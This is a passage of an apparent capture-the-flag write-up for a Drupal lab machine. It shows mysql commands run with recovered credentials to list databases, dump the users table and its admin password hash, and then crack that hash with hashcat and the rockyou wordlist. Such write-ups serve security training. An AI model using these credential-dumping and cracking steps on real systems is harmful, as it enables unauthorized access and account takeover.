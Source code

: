 Since we can neither use python nor script, getting a real shell is hard. So we use the `-e` in mysql to get information from the database.  Looking through the database as drupaluser we find the hashed password for brucetherealadmin using the drupal database in the users table.

```php
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema
```

```php
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "use drupal;show tables;"    
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
...[snip]...
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
```

```php
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "use drupal;select * from users;"
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admi
n@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

Hashcat cracks the hash quite quickly.

```php
$ hashcat -m 7900 -O hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...[snip]...
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Drupal7
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Time.Started.....: Wed Jul 21 17:57:06 2021 (1 sec)
Time.Estimated...: Wed Jul 21 17:57:07 2021 (0 secs)
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      450 H/s (8.75ms) @ Accel:64 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 256/14344384 (0.00%)
Rejected.........: 0/256 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:32256-32768
Candidates.#1....: 123456 -> freedom
```